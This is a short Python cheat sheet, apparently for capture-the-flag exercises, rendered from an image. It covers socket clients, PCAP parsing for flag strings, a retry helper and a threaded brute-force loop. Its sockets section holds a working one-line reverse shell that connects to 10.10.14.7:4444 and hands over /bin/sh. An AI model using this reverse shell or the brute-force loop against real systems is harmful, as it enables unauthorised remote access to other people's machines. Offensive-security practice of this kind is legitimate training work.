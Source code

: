 ## 🔗 Sockets & Reverse Shells

```python
# TCP client
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.14.7', 4444))
s.sendall(b'whoami\n')
print(s.recv(4096))

# tiny reverse shell
import os,pty
s=socket.socket();s.connect(('10.10.14.7',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')
```

---

## 🧪 PCAP / Network parsing (scapy)

```python
from scapy.all import rdpcap
pkts = rdpcap('dump.pcap')
for p in pkts:
    if p.haslayer(TCP) and p[TCP].dport == 80:
        payload = bytes(p[TCP].payload)
        if b'flag{' in payload:
            print(payload)
```

---

## 🔁 Automation & Helpers

```python
# retry decorator
import time

def retry(fn, retries=5, delay=1):
    for i in range(retries):
        try:
            return fn()
        except Exception as e:
            time.sleep(delay)
    raise

# threaded bruteforce (example)
from concurrent.futures import ThreadPoolExecutor
with ThreadPoolExecutor(max_workers=20) as ex:
    for res in ex.map(lambda u: try_user(u), users):
        if res: print(res)
```

---